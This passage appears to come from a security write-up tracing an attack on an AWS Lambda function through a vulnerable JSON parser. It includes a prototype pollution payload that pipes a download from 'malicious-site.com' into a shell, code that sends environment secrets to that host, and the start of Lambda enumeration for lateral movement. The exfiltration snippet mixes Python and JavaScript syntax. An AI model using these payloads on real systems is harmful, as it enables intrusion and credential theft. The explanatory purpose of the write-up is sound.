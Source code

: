 The process-order function uses the outdated package to parse the incoming JSON:

```
const vulnerableJsonParser = require('vulnerable-json-parser'); 
exports.handler = async (event) => { 
const order = vulnerableJsonParser.parse(event.body); 
// Process the order…
}
```

This prototype pollution vulnerability allows the attacker to modify the behavior of the function and potentially execute arbitrary code.

### Step 2: Achieving Code Execution

The attacker then exploits the prototype pollution to override the `toString` method of Object, which is often implicitly called in Node.js applications:

```
{
"order_id": "1337", 
"__proto__": { 
"toString": "function(){return require('child_process').execSync('curl https://malicious-site.com/payload | sh')}", 
"polluted": "true" 
}, 
"items": [{"id": 1, "quantity": 1}]
}

```

When the function tries to use `toString` on any object, it will instead execute the attacker’s malicious code, which downloads and runs a payload from their command-and-control (C2) server.

### Step 3: Exploiting Environment Variables

Now that the attacker has code execution, they can access the function’s environment variables:

```
function malicious_function() {
secrets = process.env 
# Send secrets to attacker-controlled server 
requests.post('https://malicious-site.com/payload', {“env”: secrets})
}

```

They now have the database connection string and AWS credentials associated with the function’s IAM role.

### Step 4: Lateral Movement

Using our overly permissive IAM role, the attacker can look for available Lambda functions across the environment:

```
const AWS = require('aws-sdk');
async function listAvailableLambdaFunctions() {
// Initialize the Lambda client
const lambda = new AWS.Lambda();
const functions = [];
let nextMarker = null;

try {
do {
// List Lambda functions, 50 at a time (default limit)
const response = await lambda.listFunctions({
Marker: nextMarker
}).promise();
```